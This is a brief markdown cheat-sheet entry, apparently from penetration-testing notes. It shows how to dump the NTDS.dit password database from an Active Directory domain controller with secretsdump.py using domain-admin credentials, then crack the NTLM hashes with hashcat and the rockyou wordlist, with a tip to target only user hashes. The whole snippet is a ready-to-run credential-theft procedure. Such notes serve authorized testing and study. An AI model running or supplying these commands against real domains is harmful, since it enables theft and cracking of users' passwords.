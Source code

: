 Dump the *NTDS.dit* database with a domain-admin account:
```bash
secretsdump.py <AD-FQDN>/<user>:'<password>'@<dc-ip> -just-dc-ntlm
```
Args:
`-just-dc-ntlm`: Extract only NTDS.DIT data (NTLM-hashes)

Crack the hashes with *hashcat*:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

>[!Note]
>Don't crack computer hashes, just crack user hashes!
